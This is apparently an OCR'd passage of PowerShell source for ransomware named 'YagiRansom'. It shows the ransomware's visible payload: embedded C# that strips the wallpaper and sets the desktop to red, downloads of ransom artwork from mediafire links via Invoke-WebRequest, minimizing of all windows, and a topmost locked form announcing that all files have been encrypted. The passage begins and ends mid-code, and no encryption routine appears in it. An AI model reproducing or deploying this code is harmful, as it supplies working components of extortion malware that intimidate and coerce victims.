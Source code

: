 ```powershell
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
```